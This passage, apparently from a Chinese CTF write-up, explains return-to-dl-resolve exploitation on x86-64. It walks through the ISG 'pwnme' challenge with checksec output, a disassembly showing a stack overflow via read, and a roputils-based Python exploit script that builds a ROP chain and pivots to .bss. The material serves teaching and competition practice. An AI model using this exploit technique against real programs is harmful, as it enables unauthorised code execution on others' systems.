 ```
   0x00007ffff7de943b <+107>:   test  rax,rax
   0x00007ffff7de943e <+110>:   je     0x7ffff7de9530 <_dl_fixup+352>
   0x00007ffff7de9444 <+116>:   mov    rax,QWORD PTR [rax+0x8]
=> 0x00007ffff7de9448 <+120>:   movzx  eax,WORD PTR [rax+rdx*2]
   0x00007ffff7de944c <+124>:   and    eax,0x7fff
...
```
这里的r10保存的便是link_map的地址，所以只需QWORD PTR [r10+0x1c8]处为NULL即可跳过这一段。这便是roputils中这一操作的由来。  

## 实例
这里选取的是去年ISG初赛的pwnme。这是一道漏洞很明显，但利用起来较复杂的题目。二进制文件基本信息如下：  
```
$ checksec --file pwnme 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   pwnme
```
主函数内即存在溢出，具体汇编代码如下：  
```
...
  4005bd:       55                      push   %rbp
  4005be:       48 89 e5                mov    %rsp,%rbp
  4005c1:       48 83 ec 10             sub    $0x10,%rsp
  4005c5:       bf 3c 00 00 00          mov    $0x3c,%edi
  4005ca:       e8 c1 fe ff ff          callq  400490 <alarm@plt>
  4005cf:       ba 13 00 00 00          mov    $0x13,%edx
  4005d4:       be 84 06 40 00          mov    $0x400684,%esi
  4005d9:       bf 01 00 00 00          mov    $0x1,%edi
  4005de:       e8 9d fe ff ff          callq  400480 <write@plt>
  4005e3:       48 8d 45 f0             lea    -0x10(%rbp),%rax
  4005e7:       ba 00 01 00 00          mov    $0x100,%edx
  4005ec:       48 89 c6                mov    %rax,%rsi
  4005ef:       bf 00 00 00 00          mov    $0x0,%edi
  4005f4:       e8 a7 fe ff ff          callq  4004a0 <read@plt>
  4005f9:       b8 00 00 00 00          mov    $0x0,%eax
  4005fe:       c9                      leaveq
  4005ff:       c3                      retq
...
```
可以看到，这里有调用read和write，可供我们读写内存。但由于二进制文件本身较简略，构造ROP chain比较有技术含量。我们队当时并没有做出来这道题，赛后看writeup，大多是利用ROP来mem leak，读取足够的内存后构造出execve得到shell。  

但是，如果使用return to dl-resolve技术，利用roputils，则可以1分钟之内傻瓜式解决……我就只是把roputils自带的examples中的dl-resolve-x86-64.py稍作修改即完成。改后的代码如下：  
``` python
#!/usr/bin/env python2

from roputils import *

fpath = sys.argv[1]
offset = 0x18

rop = ROP(fpath)
addr_stage = rop.section('.bss') + 0x400
ptr_ret = rop.search(rop.section('.fini'))

buf = rop.retfill(offset)
buf += rop.call_chain_ptr(
    ['write', 1, rop.got()+8, 8],
    ['read', 0, addr_stage, 420]
, pivot=addr_stage)
buf += rop.fill(0x100, buf)

p = Proc(rop.fpath)
p.write(buf)
```